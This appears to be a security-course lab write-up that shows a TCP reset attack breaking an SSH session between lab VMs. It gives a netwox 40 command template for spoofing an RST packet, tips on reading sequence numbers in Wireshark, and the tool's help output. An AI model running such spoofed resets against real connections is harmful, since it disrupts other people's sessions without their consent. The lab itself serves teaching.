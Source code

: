 ```yaml
---
layout: post
title: "TCP Reset Attack on an SSH Connection"
date: 2021-05-25 09:00:00 -0500
categories: [Network Security & Defense] [Attacks]
tags: [network] [security] [ssh] [tcp] [attack]
---
```

### Overview
In this demo, we will break an ssh connection between the victim and the ssh server.

### Setup
For this attack you will need 3 Linux VMs.
* VM1 as the victim (SSH client).
* VM2 as the ssh server.
* VM3 as the attacker.

The 3 VMs reside in the same network.

### Attack
The attacker, mimicking the server, only needs to send one RST packet to perform the attack. The requirement is, the attack needs to use "netwox 40" to perform this attack.

The command should be in this format:

```bash
sudo netwox 40 --ip4-src source_ip --ip4-dst destination_ip --tcp-src source_port --tcp-dst destination_port --tcp-rst --tcp-seqnum sequence_number.
```

> **Note**: The attacker needs to use Wireshark to find out the parameter information for the above command: pay attention to the last packet sent from the server to the client, it will tell you what the next sequence number should be.
>
>See here: http://cs.boisestate.edu/~jxiao/cs333/images/tcpreset/nextseqnumber.png.
>
>Also, the next sequence number is always = current sequence number + TCP segment len.

> **Note2**: You can also mimick the client. The attack works in either direction.

Run ```bash netwox 40 --help ``` for help information, like below.

``` bash
seed@VM:~$ netwox 40 --help
Title: Spoof Ip4Tcp packet
Usage: netwox 40 [-c uint32] [-e uint32] [-f|+f] [-g|+g] [-h|+h] [-i uint32] [-j uint32] [-k uint32] [-l ip] [-m ip] [-n ip4opts] [-o port] [-p port] [-q uint32] [-r uint32] [-s|+s] [-t|+t] [-u|+u] [-v|+v] [-w|+w] [-x|+x] [-y|+y] [-z|+z] [-A|+A] [-B|+B] [-C|+C] [-D|+D] [-E uint32] [-F uint32] [-G tcpopts] [-H mixed_data]
Parameters:
 -c|--ip4-tos uint32            IP4 tos {0}
 -e|--ip4-id uint32             IP4 id (rand if unset) {0}
 -f|--ip4-reserved|+f|--no-ip4-reserved IP4 reserved
 -g|--ip4-dontfrag|+g|--no-ip4-dontfrag IP4 dontfrag
 -h|--ip4-morefrag|+h|--no-ip4-morefrag IP4 morefrag
 -i|--ip4-offsetfrag uint32     IP4 offsetfrag {0}
 -j|--ip4-ttl uint32            IP4 ttl {0}
 -k|--ip4-protocol uint32       IP4 protocol {0}
 -l|--ip4-src ip                IP4 src {172.16.77.129}
 -m|--ip4-dst ip                IP4 dst {5.6.7.8}
 -n|--ip4-opt ip4opts           IPv4 options
 -o|--tcp-src port              TCP src {1234}
 -p|--tcp-dst port              TCP dst {80}
 -q|--tcp-seqnum uint32         TCP seqnum (rand if unset) {0}
 -r|--tcp-acknum uint32         TCP acknum {0}
 -s|--tcp-reserved1|+s|--no-tcp-reserved1 TCP reserved1
 -t|--tcp-reserved2|+t|--no-tcp-reserved2 TCP reserved2
 -u|--tcp-reserved3|+u|--no-tcp-reserved3 TCP reserved3
 -v|--tcp-reserved4|+v|--no-tcp-reserved4 TCP reserved4
 -w|--tcp-cwr|+w|--no-tcp-cwr   TCP cwr
 -x|--tcp-ece|+x|--no-tcp-ece   TCP ece
 -y|--tcp-urg|+y|--no-tcp-urg   TCP urg
 -z|--tcp-ack|+z|--no-tcp-ack   TCP ack
 -A|--tcp-psh|+A|--no-tcp-psh   TCP psh
 -B|--tcp-rst|+B|--no-tcp-rst   TCP rst
 -C|--tcp-syn|+C|--no-tcp-syn   TCP syn
 -D|--tcp-fin|+D|--no-tcp-fin   TCP fin
 -E|--tcp-window uint32         TCP window {0}
 -F|--tcp-urgptr uint32         TCP urgptr {0}
 -G|--tcp-opt tcpopts           TCP options
 -H|--tcp-data mixed_data       mixed data
 --help2                        display help for advanced parameters
```
